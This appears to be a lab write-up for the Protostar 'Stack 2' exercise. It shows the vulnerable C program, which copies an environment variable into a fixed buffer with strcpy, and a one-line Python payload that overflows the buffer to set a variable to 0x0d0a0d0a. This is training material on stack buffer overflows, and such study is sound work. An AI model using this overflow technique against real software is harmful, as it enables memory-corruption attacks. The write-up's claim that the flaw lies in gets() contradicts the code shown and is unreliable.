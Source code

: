 # PROTOSTAR : STACK 2
[Protostar:Stack2](https://exploit.education/protostar/stack-two/)

### SOURCE CODE
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

The challenge involves Stack Buffer Overflow challenge and we are going to exploit the **gets()** function. We also need to add an environment variable **GREENIE**. We are going to be adding the output of our exploit script to the environment variable.

### **SOLUTION**

Executed the program but it requires but it requires the **GREENIE** enivronment variable.
```
user@protostar:/opt/protostar/bin$ ./stack2
stack2: please set the GREENIE environment variable

user@protostar:/opt/protostar/bin$ 
```

Setting the environment variable and adding our exploit code output, then executing the program.
Keep in mind to pass the string **0x0d0a0d0a** in **LITTLE ENDIAN**.
```
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'")
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
user@protostar:/opt/protostar/bin$ 
```
